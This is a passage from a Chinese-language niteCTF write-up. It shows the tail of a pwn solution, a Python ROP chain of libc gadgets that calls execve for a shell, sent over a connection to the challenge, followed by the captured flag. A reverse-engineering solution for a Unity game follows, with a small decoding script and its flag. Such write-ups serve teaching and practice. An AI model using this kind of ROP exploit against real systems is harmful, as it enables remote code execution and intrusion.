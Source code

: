 ```python=
payload += p64(libc_base + 0x90529) # pop rdx ; pop rbx ; ret
payload += p64(libc_base + 0x2191e0) # @ .data
payload += b"A"*0x8
payload += p64(libc_base + 0x3a410) # mov qword ptr [rdx], rax ; ret
payload += p64(libc_base + 0x2a3e5) # pop rdi ; ret
payload += p64(libc_base + 0x2191e0) # @ .data
payload += p64(libc_base + 0x2be51) # pop rsi ; ret
payload += p64(libc_base + 0x2191e8) # @ .data+8
payload += p64(libc_base + 0x108b13) # pop rdx ; pop rcx ; pop rbx ; ret
payload += p64(libc_base + 0x2191e8) # @ .data+8
payload += p64(libc_base + 0x2191e8) # @ .data+8
payload += p64(libc_base + 0x2191e8) # @ .data+8
payload += p64(libc_base + 0xbab79) # xor rax, rax ; ret
payload += p64(libc_base + 0x3a410) # mov qword ptr [rdx], rax ; ret
payload += p64(libc_base + 0xeb0f4) # mov eax, 0x3b ; syscall
conn.sendafter(b"movie?: ", payload)

conn.interactive()
```
:::

成功獲得 RCE 後，找尋了一下，在 `/flag` 檔案中拿到 flag

![](https://i.imgur.com/3M6WlNV.png =500x)

nite{wh3n_h3_s41d_1tS_r0pp1n_t1me_1_cr13d}

## rev
### undodge
![](https://i.imgur.com/Wk9FMWn.png)

載下來之後，發現是 unity 的遊戲

參考[這篇文章](https://www.kodeco.com/36285673-how-to-reverse-engineer-a-unity-game)，進行逆向分析

發現裡面有一些叫做 Flagchar 的物件，並且會在玩家獲得特定分數後輸出一些文字，推測可能是 flag

![](https://i.imgur.com/8p31srg.png)

寫了一個程式進行輸出

:::spoiler solve.py
```python=
import string
ab = string.ascii_lowercase + "_"
x = [26, 22, 7, 0, 19, 26, 0, 26, 15, 11, 0, 24, 4, 17, 26, 26]
print("".join([ab[xx] for xx in x]))
```
:::

輸出為 `_what_a_player__`，包成 flag 格式即可

`niteCTF{_what_a_player__}`
